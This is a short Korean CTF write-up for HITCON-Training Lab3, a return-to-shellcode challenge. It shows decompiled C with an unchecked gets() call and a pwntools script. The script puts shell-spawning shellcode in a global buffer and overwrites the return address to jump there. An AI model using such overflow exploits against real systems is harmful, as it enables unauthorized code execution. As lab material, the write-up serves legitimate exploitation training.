 ```yaml
---
title: "[HITCON-Training]Lab3"
date: 2019-11-17
ctf: HITCON-Training
layout: post
---
```


return to shellcode 문제다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-14h]
 
  setvbuf(stdout, 0, 2, 0);
  printf("Name:");
  read(0, &name, 50u);
  printf("Try your best:");
  return (int)gets(&s);
}
```

name은 bss에 저장된 전역변수이다.

name에 shellcode를 넣고 gets로 return을 name으로 해주면 shellcode가 실행될거다.

```python
from pwn import *
 
e = ELF('./ret2sc')
p = process('./ret2sc')
 
p.sendlineafter(':',asm(shellcraft.i386.sh()))
pay = 'A'*(0x1c+4)
pay += p32(0x0804A060)
p.sendlineafter(':',pay)
p.interactive()
```

